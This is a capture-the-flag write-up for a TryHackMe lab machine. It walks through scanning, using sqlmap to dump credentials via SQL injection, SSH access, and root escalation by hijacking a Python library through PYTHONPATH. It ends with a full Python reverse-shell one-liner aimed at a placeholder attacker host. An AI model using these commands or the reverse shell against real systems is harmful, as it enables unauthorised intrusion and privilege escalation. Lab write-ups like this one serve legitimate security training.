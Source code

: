 ```yaml
---
description: https://tryhackme.com/room/biblioteca
---
```


# Biblioteca

## Nmap

```
sudo nmap 10.10.198.83 -p- -sS -sV       

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Starting out we hit port 8000 which is running `werkzeug`. Looking up the version number on `searchsploit` shows no exploits available.

The root page of the web server shows us a login page.

![](<../../../.gitbook/assets/image (537).png>)

Using the link at the bottom of the page we move over to a registration form. Signing up with an account is successful.

![](<../../../.gitbook/assets/image (1340).png>)

We are then able to login with our newly created account.

![](<../../../.gitbook/assets/image (1197).png>)

However, from here I was unable to enumerate further files or directories. After running exhaustive searches I then started ZAP Proxy. Using the active scan feature, ZAP flags a SQL injection on the web server login page.

Firstly we save the login request in ZAP to the attacking computer.

![](<../../../.gitbook/assets/image (2039).png>)

Then use it in conjunction with `sqlmap` as shown below.

```bash
sqlmap -r request.raw --batch -D website -T users --dump
```

Building the right command to dump the users table of the website database we see stored credentials for the user smokey.

![](<../../../.gitbook/assets/image (216).png>)

Where, we are able to login over SSH with the found credentials.

```bash
ssh smokey@<IP>
```

![](<../../../.gitbook/assets/image (112).png>)

Viewing the home directories we notice the presence of the user _hazel_. We also find we are able to `su` over to hazel using her username as the password. We are also able to also login over `SSH` with the same credentials.

![](<../../../.gitbook/assets/image (198).png>)

Checking `sudo -l` we notice that we are able to run `/home/hazel/hasher.py` with the python3 binary as root, without specifying a password. Interestingly, the value `SETENV:` also dictates that we are able to change the `PYTHONPATH` environmental variable.

![](<../../../.gitbook/assets/image (1684).png>)

The exploit method here is known as :thumbsup::thumbsup:python library hijacking". I have linked a well written article below, which serves as a basis for the exploit bath on this page.

**URL** [https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

Essentially, `SETENV:` allows us to change the environmental path for where python searches for modules.

Reading the contents of `hasher.py` we see the script imports the module hashlib. We can create a python reverse shell called `hashlib.py` in the `/tmp` directory. After doing so, we can run the sudo command and set where the PYTHONPATH looks first when attempt to load external modules references in `hasher.py`, this should execute our reverse shell.

Create a new `hashlib.py` file in `/tmp` with the following contents.

```python
import os
os.system("whoami")
```

Then test

```
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

![](<../../../.gitbook/assets/image (108).png>)

With confirmed root execution we then replace the contents of `/tmp/hashlib.py` with a python3 reverse shell and catch on our attacking system with a `netcat` listener.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

![](<../../../.gitbook/assets/image (194).png>)

